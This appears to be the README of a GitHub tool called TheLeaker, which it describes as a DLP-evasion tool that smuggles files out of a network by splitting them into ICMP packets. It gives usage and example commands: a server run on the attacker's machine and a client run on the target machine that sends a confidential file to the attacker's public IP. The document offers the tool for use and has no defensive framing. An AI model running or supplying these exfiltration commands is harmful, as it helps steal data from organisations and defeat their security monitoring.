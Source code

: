 # TheLeaker

# What is?
TheLeaker is a DLP evasion tool that leaks files via the icmp protocol.

# How is it done?
TheLeaker uses an optional icmp field to send files by splitting them into small packets.

# How to use?
TheLeaker has two binaries: "theleaker-client" and "theleaker-server".

- theleaker-server: must be run on the machine that will receive the leaked files
- theleaker-client: must be run on target machine

# Commands
- theleaker-server [your ip]
- theleaker-client -s [target] -f [filename] -R [router ip] -r [rename file]

# Example

## On your machine
theleaker-server 192.168.0.10

## On target machine
theleaker-client -s 170.93.185.100 -f confidencial.txt -R 192.168.0.10 -r confidencial.txt

* The "target" parameter must be your public IP;
* The "router ip" parameter must be informed for future compatibilities
* Your local ip must be in DMZ


